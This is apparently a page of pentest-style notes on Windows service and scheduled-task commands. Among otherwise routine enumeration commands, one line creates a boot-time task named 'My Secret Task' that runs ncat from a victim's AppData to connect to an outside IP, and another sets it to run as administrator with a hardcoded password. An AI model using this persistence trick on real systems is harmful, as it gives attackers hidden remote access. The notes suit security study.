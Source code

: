 ```cmd
:: list services
tasklist /svc

:: list started/stopped services
net start
net stop

:: paused/continued
net pause
net continue

:: list
wmic service list brief
```
# Scheduled tasks
#### Possible triggers:
* When a specific system event occurs.
* At a specific time.
* At a specific time on a daily schedule.
* At a specific time on a weekly schedule.
* At a specific time on a monthly schedule.
* At a specific time on a monthly day-of-week schedule.
* When the computer enters an idle state.
* When the task is registered.
* When the system is booted.
* When a user logs on.
* When a Terminal Server session changes state.

```cmd
:: /FO - format options: list, table, csv
:: /v - verbose
:: /s - name or host to connect
::  - /u user - set permissions as users'
::  - /p pwd 

schtasks /Query /V /FO list
```

```cmd
schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"
```

```cmd.exe
:: /enable
:: /disable
schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"
```

```cmd
:: /F - force
schtasks /delete  /tn "My Secret Task" 
```

